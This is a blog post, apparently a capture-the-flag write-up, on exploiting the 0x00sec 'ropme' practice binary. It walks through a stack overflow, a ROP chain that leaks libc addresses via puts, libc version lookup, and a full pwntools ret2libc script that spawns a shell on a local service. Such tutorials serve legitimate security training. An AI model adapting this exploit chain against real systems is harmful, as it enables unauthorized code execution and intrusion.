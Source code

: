 ```yaml
---
layout: post
title:  "PWNING ROPME"
date:   2018-04-14 15:53:06 +0100
tag: pwning
---
```

## Please read the [disclaimer]({{ site.baseurl }}{% link 9.disclamer.md %})

Hello, this is my first post on this website, from now on I will publish tutorials and solutions for the challenges that I complete for educational purpose.

In this small tutorial we will talk about: 
- How to leak an address from libc
- How to find the correct version of libc used by the remote target
- How to exploit and gain a remote shell

We will use a tool called [pwntools][pwntools-website] to write our exploit script, using python as language.

I chose a challenge proposed by the cyber security community [0x00sec][0x00sec-website]. so let's get right into it.


# Reversing part:

The binary is a simple `ELF 64-bit dynamically linked` let's check its protections.

Using [checksec][checksec-gitgub] we see that stack smashing protection is disabled.

![ropme_checksec]({{ "/assets/img/ropme_checksec.png" | absolute_url }})

{% highlight c %}
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [sp+10h] [bp-40h]

  puts("ROP me outside, how 'about dah?");
  fflush(stdout);
  fgets(&s, 0x1F4, stdin);
  return 0;
}
{% endhighlight %}

we notice that the length of the variable `s` is 0x40 but `fgets` reads 0x1F4 bytes from STDIN, which means we can overwrite the return address !.

# Leaking part:

Our first goal is to leak 2 different libc function addresses, to do so, we will use `puts` function to print .got entries, I chose to leak `puts` and `fgets` addresses.

Using `gdb` we find that after 72 bytes we can overwrite the return address, time to build a small rop gadget to call puts and print .got entries, for this we need to find a gadget that puts data into `RDI` something like `pop RDI; ret` would be cool, using [ROPgadget][ROPgadget-gitgub] on the binary we get :

![ropme_rop_gadget]({{ "/assets/img/ropme_rop_gadget.png" | absolute_url }})

With all this information we can write a small script to extract `puts` and `fgets` addresses.



{% highlight python linenos %}

from pwn import *

e = context.binary = ELF('./ropme')

pop_rdi_ret = 0x4006d3

r = remote('127.0.0.1', 4444) # connect to the remote service

leak  = cyclic(72)          # offset
leak += p64(pop_rdi_ret)    # pop rdi; ret
leak += p64(e.got.puts)     # argument
leak += p64(e.plt.puts)     # function_call

leak += p64(pop_rdi_ret)    # pop rdi; ret
leak += p64(e.got.fgets)    # argument
leak += p64(e.plt.puts)     # function_call

leak += p64(e.symbols.main) # return to main

r.recvuntil("ROP me outside, how 'about dah?\n")
r.sendline(leak)

puts_address  = u64(r.recvline(6).strip().ljust(8, "\x00"))
fgets_address = u64(r.recvline(4).strip().ljust(8, "\x00"))

log.success('puts() at %#x', puts_address)
log.success('fgets() at %#x', fgets_address)

{% endhighlight %}

its output : 

![ropme_leak_libc]({{ "/assets/img/ropme_leak_libc.png" | absolute_url }})


Now having this juicy information we can search for the libc version using one of the many libc databases out there an example would be : [libc-database][libc-database].

![ropme_libc_found]({{ "/assets/img/ropme_libc_found.png" | absolute_url }})


The remote target has `libc6_2.23`, let's just download it and use [pwntools][pwntools-website] to extract function's offsets from it.

# Exploit part:

Now that we can leak a libc function's address we can calculate libc base address by : `libc_base_address = leaked_function_address - function's_offset_in_libc` and then get system address.

The final exploit script : 

{% highlight python linenos %}

from pwn import *

e = context.binary = ELF('./ropme')
libc = ELF('./libc6_2.23-0ubuntu10_amd64.so')

pop_rdi_ret = 0x4006d3

puts_offset = libc.symbols['puts']
sys_offset  = libc.symbols['system']
exit_offset = libc.symbols['exit']
sh_offset   = libc.search('sh\x00').next()

r = remote('127.0.0.1', 4444) # connect to the remote service

leak  = cyclic(72)          # offset
leak += p64(pop_rdi_ret)    # pop rdi; ret
leak += p64(e.got.puts)     # argument
leak += p64(e.plt.puts)     # function_call

leak += p64(pop_rdi_ret)    # pop rdi; ret
leak += p64(e.got.fgets)    # argument
leak += p64(e.plt.puts)     # function_call

leak += p64(e.symbols.main) # return to main

r.recvuntil("ROP me outside, how 'about dah?\n")
r.sendline(leak)

puts_address  = u64(r.recvline(6).strip().ljust(8, "\x00"))
fgets_address = u64(r.recvline(4).strip().ljust(8, "\x00"))

log.success('puts() at %#x', puts_address)
log.success('fgets() at %#x', fgets_address)

libc_base = puts_address - puts_offset

log.success('libc_base located at %#x', libc_base)

system = libc_base + sys_offset
sh = libc_base + sh_offset
exit = libc_base + exit_offset

exploit  = cyclic(72)       # offset
exploit += p64(pop_rdi_ret) # pop rdi; ret
exploit += p64(sh)          # argument
exploit += p64(system)      # function_call
exploit += p64(exit)

r.recvuntil("ROP me outside, how 'about dah?\n")
r.sendline(exploit)

r.interactive()

{% endhighlight %}



![ropme_leak_libc]({{ "/assets/img/ropme_last.png" | absolute_url }})



[pwntools-website]: https://docs.pwntools.com/en/stable
[0x00sec-website]:  https://0x00sec.org
[checksec-gitgub]:  https://github.com/slimm609/checksec.sh
[ROPgadget-gitgub]: https://github.com/JonathanSalwan/ROPgadget
[libc-database]:    https://libc.blukat.me